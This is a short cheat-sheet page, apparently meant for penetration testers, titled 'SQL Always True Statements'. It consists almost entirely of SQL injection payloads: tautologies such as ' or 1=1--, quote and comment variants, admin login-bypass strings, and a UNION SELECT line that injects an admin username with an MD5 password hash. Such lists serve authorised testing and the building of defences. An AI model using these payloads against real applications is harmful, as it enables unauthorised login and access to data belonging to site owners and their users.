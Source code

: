 ## SQL Always True Statements
Payloads to test for SQLi:
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
```